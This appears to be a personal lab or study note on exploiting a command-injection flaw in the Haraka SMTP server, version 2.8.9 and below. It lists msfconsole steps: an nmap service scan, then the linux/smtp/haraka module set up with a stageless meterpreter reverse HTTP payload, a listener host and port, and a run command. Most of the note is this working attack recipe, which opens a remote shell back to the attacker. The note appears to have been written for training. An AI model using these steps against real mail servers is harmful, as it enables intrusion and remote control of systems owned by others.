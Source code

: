 # SMTP EXPLOTATION

### simple mail transfer protocol
By default port 25 
can be configured to run on port TCP **465 AND 587**

### explotation HARAKA
```
Haraka is an open source high performance SMTP server developed in Node.js.
The Haraka SMTP server comes with a plugin for processing attachments.
Haraka versions V2.8.9 are vulnerable to command injection.
```

## VErsion 2.8.9 smtp and smaller


# DEMO
>msfconsole
>>workspace
>>>setg RHOSTS
>>>db_nmap -sS -sV -sC -O **<ip**
```bash
[*] Nmap: PORT STATE SERVICE VERSION
[*] Nmap: 25/tcp open smtp Haraka smtpd 2.8.8
[*] Nmap: MAC Address: 02:42:C0:56:33:03 (Unknown)
```
### exploit
>>>>linux/smtp/haraka
>>>>set SRV_PRT 9898
>>>>set email_to root@attackdefence.text
>>>>> set Payload linux/x64/meterpreter_reverse_http
THIS IS A STAGELESS PAYLOAD
>>>>set LHOST **<eth1>**
*tHIS NEEDS 8080 THATS WHY WE CHANGED SRV_PORT TO DIFFERENT ONE*
>>>>> RUN
